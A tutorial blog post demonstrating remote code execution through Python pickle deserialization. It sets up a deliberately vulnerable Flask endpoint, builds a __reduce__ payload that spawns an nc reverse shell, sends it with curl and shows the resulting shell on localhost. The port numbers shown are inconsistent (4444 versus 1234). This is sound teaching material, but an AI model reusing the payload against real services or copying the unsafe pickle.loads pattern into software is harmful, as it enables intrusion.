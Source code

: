 # Python: Exploiting de-serialization to achieve RCE

The [`pickle` module](https://docs.python.org/3/library/pickle.html) implements binary protocols for serializing and de-serializing a Python object structure.

The documentation for `pickle` module comes with red box of warning:

> Warning The pickle module is not secure. Only unpickle data you trust.
It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

In this post, I will try to demonstrate how remote code executation can be achieved by exploiting `pickle` on a flask based web application.

## Setup basic flask application

- Create virtual env
```
python3 -m venv venv
source venv/bin/activate

pip install flask
```
- Create app.py
```
from flask import Flask, request
import base64
import pickle

app = Flask(__name__)

@app.route('/pickler', methods=["POST"])
def pickler():
    data = base64.urlsafe_b64decode(request.form['pickled'])
    deserialized_data = pickle.loads(data)
    return ''
```
- Run the app
```
export FLASK_APP=app.py
flask run
```

## Create payload for the RCE
```
# exploit.py

import pickle
import base64
import os


class RCE(object):
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 4444 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))

```

By implementing `__reduce__` in a class whose instances we are going to pickle, we can give the pickling process a callable plus some arguments to run. While intended for reconstructing objects, we can abuse this for getting our own reverse shell code executed.

The code executed will create a reverse shell back to our localhost at port 4444

Let's generate the payload by running above code:

```
python exploit.py
Y3Bvc2l4CnN5c3RlbQpwMAooUydybSA...
```
## Exploit

```
# create a listner
nc -nvvl 4444

# send payload
curl -d "pickled=Y3Bvc2l4CnN5c3RlbQpwMAooUydybSA..." http://127.0.0.1:5000/pickler

# watch the listner for connection

nc -nvvvl 1234
sh: no job control in this shell
sh-3.2$ id
uid=501(raj3shp)
```
